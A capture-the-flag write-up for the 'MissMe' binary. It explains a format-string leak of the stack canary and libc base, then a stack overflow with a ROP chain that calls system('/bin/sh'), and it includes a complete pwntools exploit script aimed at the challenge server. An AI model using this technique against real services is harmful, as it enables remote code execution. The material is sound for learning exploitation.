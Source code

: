 # MissMe

## info

we're given an elf binary `missme` along with a libc and a `run.sh` script to start the `missme` binary with given ld and libc...

```
$ file missme
missme: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=cd942396eb1ff8a507f2e5ed18e76c14e0f8ca86, not stripped
```

and security mechanisms of the file:
```
$ checksec --file missme
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

decompiled code of `main` function is as follow:
```c

undefined8 main(undefined8 argc, char **argv)
{
    int64_t iVar1;
    int64_t iVar2;
    undefined8 uVar3;
    int64_t in_FS_OFFSET;
    char **var_830h;
    int64_t var_824h;
    undefined8 var_814h;
    int64_t canary;
    
    iVar1 = *(int64_t *)(in_FS_OFFSET + 0x28);
    puts(0x2008);
    puts(0x20b0);
    puts(0x2158);
    puts(0x2200);
    puts(0x22a8);
    puts(0x2350);
    puts(0x23f8);
    puts(0x24a0);
    puts(
        "                                                                                                                                                                      "
        );
    fflush(_reloc.stdout);
    setvbuf(_reloc.stdin, 0, 2, 0);
    setvbuf(_reloc.stdout, 0, 2, 0);
    signal(0xe, clocker);
    alarm(0x3c);
    var_814h._0_4_ = 0;
    do {
        if (1 < (int32_t)var_814h) {
            uVar3 = 1;
code_r0x00001364:
            if (iVar1 != *(int64_t *)(in_FS_OFFSET + 0x28)) {
                uVar3 = __stack_chk_fail();
            }
            return uVar3;
        }
        iVar2 = fgets((int64_t)&var_814h + 4, 0x900, _reloc.stdin);
        if (iVar2 == 0) {
            uVar3 = 0;
            goto code_r0x00001364;
        }
        iVar2 = strchr((int64_t)&var_814h + 4, 0x6e);
        if (iVar2 == 0) {
            printf((int64_t)&var_814h + 4);
            fflush(_reloc.stdout);
        }
        var_814h._0_4_ = (int32_t)var_814h + 1;
    } while( true );
}
```

it simply runs a loop just twice to perform the following:
1. get an input string of at most 0x900 and store it at `rbp - 0x818` (stack overflow)
2. print it using printf and then fflush to force output buffer write (format string vulnerability)

## exploit

we get to do this twice...

so with first round of loop, we can leak stack canary and __libc_start_main + some offset from past the base pointer...

canary is at rbp-8 and __libc_start_main addr will be at rbp+16 iirc...

after leaking canary and libc base address, we can overflow the stack by ease and call system, using a `pop rdi; ret` gadget and '/bin/sh\x00' address from libc to prepare the call...

I found the correct offset/argnum for format string by just playing around and printing them... which isn't a good way but worked for me...

there is also a single ret gadget used in rop which is to adjust address alignment for system call, otherwise some vector instruction inside it would segfault...

```python
from pwn import *

context.arch = 'amd64'
context.os = 'linux'


def exploit(p, libc, pop_rdi_offset, single_ret_offset, local):
    p.recv()

    bin_sh_offset = next(libc.search(b'/bin/sh\x00'))

    # canary and libc leak

    payload = b'0x%267$016lx - 0x%269$016lx - :::'
    p.sendline(payload)

    leaks = p.recvuntil(b':::').split(b' - ')
    print(p.recvline())

    canary_leak = int(leaks[0], 16)
    libc_start_main_leak = int(leaks[1], 16) - 243
    if not local:
        libc_start_main_leak += 8

    __libc_start_main = libc.symbols['__libc_start_main']
    libc_base = libc_start_main_leak - __libc_start_main

    bin_sh_addr = libc_base + bin_sh_offset
    single_ret = libc_base + single_ret_offset
    pop_rdi = libc_base + pop_rdi_offset
    libc_system = libc_base + libc.symbols['system']
    libc_exit = libc_base + libc.symbols['exit']

    print("[+] canary leak:       0x%016x" % canary_leak)
    print("[+] bin sh addr:       0x%016x" % bin_sh_addr)
    print("[+] __libc_start_main: 0x%016x" % libc_start_main_leak)
    print("[+] libc base:         0x%016x" % libc_base)
    print("[+] libc pop rdi:      0x%016x" % pop_rdi)
    print("[+] libc xor eax:      0x%016x" % single_ret)
    print("[+] libc system:       0x%016x" % libc_system)

    # rewrite ret address to set rdi and call system

    payload = b'A' * 0x808
    payload += p64(canary_leak) + p64(libc_system)
    payload += p64(pop_rdi) + p64(bin_sh_addr)
    payload += p64(single_ret)
    payload += p64(libc_system)
    payload += p64(libc_exit)

    #gdb.attach(p)

    p.sendline(payload)

    p.interactive()

if __name__ == '__main__':
    local = sys.argv[1:2] and sys.argv[1] == 'local'
    if local:
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        p = process(['./missme'])
    else:
        libc = ELF('./libc.so.6')
        p = remote('185.14.184.242', 15990)
        #p = process(['./ld-2.28.so', '--library-path', './', './missme'])
        #p = process(['./run.sh'])

    rop = ROP(libc)
    pop_rdi_offset = (rop.find_gadget(['pop rdi', 'ret']))[0]
    single_ret_offset = (rop.find_gadget(['ret']))[0]

    exploit(p, libc, pop_rdi_offset, single_ret_offset, local)
```
